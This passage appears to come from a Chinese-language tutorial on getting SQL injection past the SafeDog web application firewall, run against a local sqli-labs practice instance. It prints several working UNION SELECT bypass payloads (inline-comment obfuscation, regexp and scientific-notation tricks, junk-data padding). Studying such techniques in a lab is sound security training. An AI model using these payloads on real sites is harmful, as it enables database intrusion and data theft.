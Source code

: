 ```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' /*!11440union*//*/!*//*!11440select*/ 1,2,3 --+
```

![提交成功的特殊符号手动测试](./../../../../images/SQL%20%E6%B3%A8%E5%85%A5%E5%85%8D%E6%9D%80/%E6%8F%90%E4%BA%A4%E6%88%90%E5%8A%9F%E7%9A%84%E7%89%B9%E6%AE%8A%E7%AC%A6%E5%8F%B7%E6%89%8B%E5%8A%A8%E6%B5%8B%E8%AF%95.png)

> 成功绕过
>
> `/*/!*/` 中间的 `/` 后加任意字符都可以，破坏了正则匹配

### 1.2.2 regexp 绕过

```
http://192.168.186.129/sqli-labs/Less-1/?id=1' regexp "%0A%23" /*!11144union %0A select */1,2,3--+
```

### 1.2.3 科学计数法绕过

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1'xor .1e1like "[%0a%23]"/*!11144union %0a select */1,2,3--+
```

### 1.2.4 产品缺陷绕过

使用脚本生成垃圾数据，安全狗大约需要 30 K 的垃圾数据，约为 800 个字符

```
┌──(root㉿kali-31)-[~]
└─# python generationData_bypass.py 800 > bypass.txt
```

查看生成的文件大小
